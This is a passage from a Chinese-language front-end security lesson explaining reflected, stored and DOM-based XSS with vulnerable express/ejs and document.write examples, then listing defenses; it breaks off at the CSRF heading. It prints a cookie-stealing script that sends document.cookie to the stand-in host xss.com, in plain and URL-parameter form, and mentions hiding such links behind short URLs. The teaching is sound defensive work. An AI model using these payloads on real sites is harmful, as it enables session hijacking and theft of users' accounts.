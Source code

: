<p data-nodeid="1441" class="">随着 Web 应用越来越广泛，各种 Web 安全问题也日益凸显，时常看到网上消息说，某网站用户账号信息遭泄露或盗取。</p>
<p data-nodeid="1442">Web 安全问题很容易成为前端工程师的盲点，一方面浏览器的各种安全策略给前端工程师造就了一种安全的假象；另一方面在通常的理解中，黑客更多的是通过系统漏洞和病毒程序来入侵服务端，让人容易形成安全问题只与服务端关系密切的错觉。这一课时我们就来分析前端相关的 3 个安全问题，从而让你开发的 Web 应用更安全。</p>
<h3 data-nodeid="1443">跨站脚本（Cross Site Scripting，XSS）</h3>
<p data-nodeid="1444">理论上跨站脚本的首字母缩写应该为“CSS”，但这样容易和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，所以缩写为 XSS。它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。</p>
<h4 data-nodeid="1445">XSS 攻击示例</h4>
<p data-nodeid="1446">一般我们把 XSS 分为<strong data-nodeid="1515">反射型、存储型、DOM 型</strong> 3 种类型。</p>
<p data-nodeid="1447">反射型 XSS 也叫非持久型 XSS，是指攻击者将恶意代码拼写在 URL 中提交给服务端，服务端返回的内容，也带上了这段 XSS 代码，最后导致浏览器执行了这段恶意代码。</p>
<p data-nodeid="1448">下面通过一个简单的例子加以说明。</p>
<p data-nodeid="1449">服务端采用 express.js 并使用 ejs 进行服务端渲染，服务端接收到地址栏 search 参数时，会将其传入到模板的 search 变量中，并生成 HTML。</p>
<pre class="lang-java" data-nodeid="1450"><code data-language="java">&lt;!-- ejs 模板 --&gt; 
你搜索了：&lt;%-search%&gt;
<span class="hljs-comment">// 服务端处理逻辑 </span>
app.get(<span class="hljs-string">'/reflection'</span>, function(req, res){ 
&nbsp; res.render(<span class="hljs-string">'reflection'</span>, { 
&nbsp; &nbsp; search: req.query.search 
&nbsp; }); 
})
</code></pre>
<p data-nodeid="1451">比如有攻击者想获取用户 cookie，编写了下面一段 JavaScript 代码。通过动态创建一个 script 标签，然后把当前 cookie 发送给目标地址 xss.com。</p>
<pre class="lang-xml" data-nodeid="1452"><code data-language="xml"><span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript"> 
s=<span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">'script'</span>); 
s.src=<span class="hljs-string">`xss.com?cookie=<span class="hljs-subst">${<span class="hljs-built_in">document</span>.cookie}</span>`</span>; 
<span class="hljs-built_in">document</span>.head.append(s) 
</span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span>
</code></pre>
<p data-nodeid="1453">那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie。</p>
<pre class="lang-js" data-nodeid="1454"><code data-language="js">?search=<span class="xml"><span class="hljs-tag">&lt;<span class="hljs-name">script</span>&gt;</span><span class="javascript"><span class="hljs-keyword">var</span> s=<span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">'script'</span>);s.src=<span class="hljs-string">`xss.com?cookie=<span class="hljs-subst">${<span class="hljs-built_in">document</span>.cookie}</span>`</span>;<span class="hljs-built_in">document</span>.head.append(s);</span><span class="hljs-tag">&lt;/<span class="hljs-name">script</span>&gt;</span></span>
</code></pre>
<p data-nodeid="1455">当然这种赤裸裸的发送很容易引起用户警觉，所以一般会转为短网址并且包装成一些带有诱导性文字的超链接，引诱用户点击访问，一旦用户点击就不知不觉地向攻击者发送了自己的 cookie。</p>
<p data-nodeid="1456">存储型和反射型相比破坏性更大，因为存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，那么其他用户访问这个个人主页的时候都会执行这段恶意代码。</p>
<p data-nodeid="1457">DOM 型 XSS 可以看作一种特殊的反射型 XSS，它也是一种非持久型 XSS，不过相对于反射型 XSS 而言它不需要经过服务端。比如在上面的例子中，如果把解析 URL 参数 search 的逻辑放在前端页面进行，那么攻击类型就属于 DOM 型。</p>
<pre class="lang-javascript" data-nodeid="1458"><code data-language="javascript">&lt;script&gt; 
&nbsp;&nbsp;<span class="hljs-keyword">var</span>&nbsp;search&nbsp;=&nbsp;location.search.replace(<span class="hljs-string">'?search='</span>,&nbsp;<span class="hljs-string">''</span>) 
&nbsp;&nbsp;<span class="hljs-built_in">document</span>.write(<span class="hljs-string">"你搜索了&nbsp;:"</span>&nbsp;+&nbsp;<span class="hljs-built_in">decodeURI</span>(search)) 
&lt;/script&gt;
</code></pre>
<h4 data-nodeid="1459">XSS 防御手段</h4>
<p data-nodeid="1460"><strong data-nodeid="1529">参数校验</strong>。对于 HTTP 请求的 URL 参数和请求体 payload 的数据进行校验，比如我们接收的数据是用户年龄，那么在后端，需要判断一下数据是否是 Number，对于不符合校验规则的数据及时抛出错误。</p>
<p data-nodeid="1461"><strong data-nodeid="1542">字符转义</strong>。对于一些特殊符号，比如“&lt;”“&gt;”“&amp;”“"”“'”“/”，我们需要对其进行转义，后端接收这些代码时候的转义存储，前端在显示的时候，再把它们转成原来的字符串进行显示。</p>
<p data-nodeid="1462">对于用户输入的字符串内容，不要使用 eval、new Function 等动态执行字符串的方法，也不要将这些字符串通过 innerHTML、outerHTML、document.write() 方式直接写到 HTML 中。对于非客户端 cookie，比如保存用户凭证的 session，将其设置为 http only，避免前端访问 cookie。</p>
<h3 data-nodeid="1463">跨站请求伪造（Cross-site Request Forgery，CSRF/XSRF）</h3>